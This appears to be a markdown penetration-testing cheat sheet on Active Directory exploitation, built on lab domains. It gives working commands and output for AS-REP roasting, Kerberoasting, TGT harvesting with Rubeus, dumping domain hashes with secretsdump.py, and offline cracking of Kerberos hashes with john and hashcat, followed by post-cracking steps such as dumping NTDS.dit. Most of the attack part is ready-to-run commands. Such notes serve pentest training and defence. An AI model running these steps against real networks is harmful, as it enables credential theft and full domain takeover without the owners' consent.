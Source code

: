 ```yaml
---
title: AD Exploitation
description: Introduction to Active directory exploitation.
---
```


# Active Directory - Exploitation

## Type of attacks & requirements

- Kerbrute Enumeration - No domain access required 
- Pass the Ticket - Access as a user to the domain required
- Kerberoasting - Access as any user required
- AS-REP Roasting - Access as any user required  
- Golden Ticket - Full domain compromise (domain admin) required 
- Silver Ticket - Service hash required 
- Skeleton Key - Full domain compromise (domain admin) required

## AS-REP Roasting

### GetNPUsers.py

GetNPUsers.py : `Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking`

The only thing that's necessary to query accounts is a valid set of usernames.

```bash
$ GetNPUsers.py spookysec.local/ -dc-ip 10.10.169.152 -no-pass -usersfile valid_users.lst
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[-] User james@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:6f85816183fca475066c51e9261ec717$eafe07ec0e87349f2ab00582d7becda....
[-] User James@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[...]
```

### Rubeus

```powershell
PS C:\Users\Administrator\downloads> .\Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::60bb:a52f:aa60:58c2%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

$krb5asrep$Admin2@CONTROLLER.local:B7BF630F74729DA7BFF9E376941F1568$803D834526CFA761F37AF6FE1E967B7F76729FF7EBC9B4A547ACDE739269650C88BDA0E7EAF8CFB1DEF3D19D10271D9E7AE88A8810CCC559CC44EA579FACA294A1903F3983055E44F8964BA8B8528FAA502B4B27DED4B3EA4A9B6E44
...
```

### Cracking AS-REP hash

**Hash :**

- Hashcat ID : 18200
- Name : Kerberos 5, etype 23, AS-REP

```bash
$ john --wordlist=/opt/rockyou.txt --format=krb5asrep asrep.hashes

[...]
Loaded 2 password hashes with 2 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pxxxxxxx        ($krb5asrep$23$admin2@CONTROLLER.LOCAL)
Pasxxxxx        ($krb5asrep$23$user3@CONTROLLER.LOCAL)
2g 0:00:00:00 DONE (2022-02-19 14:02) 100.0g/s 51200p/s 102400c/s 102400C/s 123456..moomoo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## User synchronization

### secretsdump.py

An account can have a permission that allows all Active Directory changes to be synced with an account. This includes password hashes. `secretsdump.py` allows you to retrieve all the passwords synced with the domain controller.

```bash
$ secretsdump.py -just-dc 'spookysec.local/backup:backup2517860@10.10.169.152'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94...:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```

## TGT Harvesting

### Rubeus

```powershell
PS C:\Users\Administrator\Downloads> echo 10.10.27.87 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
PS C:\Users\Administrator\Downloads> .\Rubeus.exe harvest /interval:30

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Harvesting (with auto-renewal)
[*] Monitoring every 30 seconds for new TGTs
[*] Displaying the working TGT cache every 30 seconds


[*] Refreshing TGT ticket cache (2/16/2022 2:24:55 AM)

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL
  StartTime             :  2/16/2022 2:21:27 AM
  EndTime               :  2/16/2022 12:21:27 PM
  RenewTill             :  2/23/2022 2:21:27 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEueRiBvsfWfw5vXb+yejoKPQzf8SXoEhLXFQ4p6w+XFFYavlaEHP5JcNEa0/M/5fxsZRQ9frEU89p/NakhpMmoEe...
```

## Kerberoasting

**Kerberoasting** allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account.

You can use `BloodHound` to find all Kerberoastable account.

### Rubeus

```bash
PS C:\Users\Administrator\Downloads> .\Rubeus.exe kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 2


[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$55970F3E577E752C4AF3862B0E336AAF$2C99AE6E2322400632AFDDCD49A56F83D6F0279E5E5A7754E6B6E2E1CD62A4603BD03D5999625F25D178D6A6572F7DBEC6D7A57407E7F343E8EFF6B8DF1ECCCF946F55ADEB22CB9D04E47425AAB62EFA960920E3644F55253420C1...
```

### GetUserSPNs.py

```bash
$ GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.190.181 -request                                                             [...]

CONTROLLER-1/SQLService.CONTROLLER.local:30111   SQLService   CN=Group Policy Creator Owners,OU=Groups,DC=CONTROLLER,DC=local  2020-05-26 00:28:26.922527  2020-
05-26 00:46:42.467441

CONTROLLER-1/HTTPService.CONTROLLER.local:30222  HTTPService 2020-05-26 00:39:17.578393  2020-05-26 00:40:14.671872



$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$controller.local/SQLService*$9c27c3c5bd692413044c5114c83dfc48$6500e8fc7a747f009af4b3c98b08f07c50db3954892bcd1f0a600aad5
...
$krb5tgs$23$*HTTPService$CONTROLLER.LOCAL$controller.local/HTTPService*$30f8b71d5d8b32488f11c72ba53433fc$ead6150959e1c10224970d24997a8fc4bf05293d90e589206aa62aa
...
```

### Cracking TGS ticket

```bash
$ hashcat -m 13100 -a 0 krb5tgs.hash /opt/rockyou.txt
...
$ john --wordlist=/opt/rockyou.txt --format=krb5tgs krb5tgs.hash
...
```

### After cracking

If the service account is a domain admin :

- dump `NTDS.dit`

If the service account is **not** a domain admin :

- pivot or escalate
- password spraying